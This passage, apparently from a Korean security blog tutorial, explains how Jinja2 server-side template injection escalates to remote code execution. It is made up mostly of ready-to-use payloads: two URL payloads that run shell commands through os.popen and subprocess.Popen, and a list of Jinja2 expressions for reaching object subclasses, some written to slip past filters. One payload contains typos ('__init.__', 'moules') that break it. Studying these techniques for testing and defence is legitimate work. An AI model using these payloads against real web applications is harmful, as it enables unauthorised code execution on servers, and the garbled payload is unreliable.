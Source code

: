 여러 시나리오가 존재하겠지만, 보통 RCE 로 연계하기위해 **<u style="color:red">codecs.IncrementalDecoder</u>**  클래스와 **<u style="color:red">subprocess.Popen</u>**클래스를 사용한다.
{% raw %}
```
codecs.IncrementalDecoder

http://uri~~/?name={{''.__class__.__base__.__subclasses__()[125].__init.__.__globals__['sys'].moules['os'].popen('ls').read()}}
```

```
subprocess.Popen

http://uri~~/?name={{''.__class__.__base__.__subclasses__()[351]('ls',shell=True,stdout=-1).communicate()[0].strip()}}
```
{% endraw %}
위와 같은 Payload를 사용할 수 있게된다.

<div class="notice">
  <h4>index값은 서버 환경마다 서로 상이할 수 있다.</h4>
</div>

위 코드에서 .__base__ 대신 .__mro__[1] 또는 .__bases__[0]를 사용하여도 무관하다.
mro 또한 객체가 상속받은 클래스 목록을 확인할 수 있으며,
<br><br>

**<u style="color:red;">base와 mro의 차이점은 직접 상속받은 클래스의 튜플이냐 모든 클래스의 튜플이냐의 차이이다.</u>**

> 이 외에도 Jinja2 웹 템플릿 엔진에서 사용되는 Payload는 무척 많으며, 각 상황에 맞게 적절하게 만들어 사용하여야 한다.
{% raw %}
```python
# To access a class object
[].__class__
''.__class__
()["__class__"] # You can also access attributes like this
request["__class__"]
config.__class__
dict #It's already a class

# From a class to access the class "object". 
## "dict" used as example from the previous list:
dict.__base__
dict["__base__"]
dict.mro()[-1]
dict.__mro__[-1]
(dict|attr("__mro__"))[-1]
(dict|attr("\x5f\x5fmro\x5f\x5f"))[-1]

# From the "object" class call __subclasses__()
{{ dict.__base__.__subclasses__() }}
{{ dict.mro()[-1].__subclasses__() }}
{{ (dict.mro()[-1]|attr("\x5f\x5fsubclasses\x5f\x5f"))() }}

{% with a = config.__class__.mro()[-1].__subclasses__() %} {{ a }} {% endwith %}


# Other examples using these ways
{{ ().__class__.__base__.__subclasses__() }}
{{ [].__class__.__mro__[-1].__subclasses__() }}
{{ ((""|attr("__class__")|attr("__mro__"))[-1]|attr("__subclasses__"))() }}
{{ request.__class__.mro()[-1].__subclasses__() }}
{% with a = dict.mro()[-1].__subclasses__() %} {{ a }} {% endwith %}
```
{% endraw %}